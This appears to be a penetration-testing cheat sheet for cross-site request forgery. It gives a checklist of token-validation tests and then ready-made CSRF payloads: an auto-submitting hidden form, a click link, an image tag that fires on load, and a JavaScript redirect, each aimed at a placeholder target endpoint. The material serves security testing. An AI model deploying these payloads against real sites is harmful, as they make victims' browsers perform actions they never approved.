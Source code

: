 - Checklist
    - Does every form have a CSRF token?
    - Can we use GET instead of POST (i.e. can our payload be in the URI instead of the body)
        - Test the token
        - Test without the token
    - Test other HTTP methods without the token (e.g. GET)
    - Test without the token value (keep the param name, e.g. &csrf=)
    - Test with a random token
    - Test a previous token
    - Test a token from a different session
    - Test with a token of the same length
    - Test for predictability
        - Test for static values
    - Test for known values (e.g. the token is the user-id)
    - Is the token tied to a cookie other than the session cookie?
    - Can the token be stolen with XSS?
    - Is the referer header being used to validate the request origin?
        - Do the cookies have SameSite set? (Chrome is lax by default)
    - Can we submit the request with GET?
    - Can we override HTTP methods with `X-Http-Method-Override: GET`
        - Can we override HTTP methods with `_method=POST`
```Python
<!-- original payload generated from BURP Suite Pro -->
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://<target-site>/api/employees/add" method=POST>
      <input type="hidden" name="name" value="<payload-info>" />
      <input type="hidden" name="email" value="<payload-info>" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
```Python
<!-- requires user interaction -->
<a href="http://<target-site>m/api/employees/add?name=<payload-info>">Click Me</a>
```
```Python
<!-- doesn't require user interaction -->
<img src="http:/<target-site>/api/employees/add?name=<payload-info>">
```
```Python
document.location = 'https://<target-site>/employees/add?name=<payload-info>';
```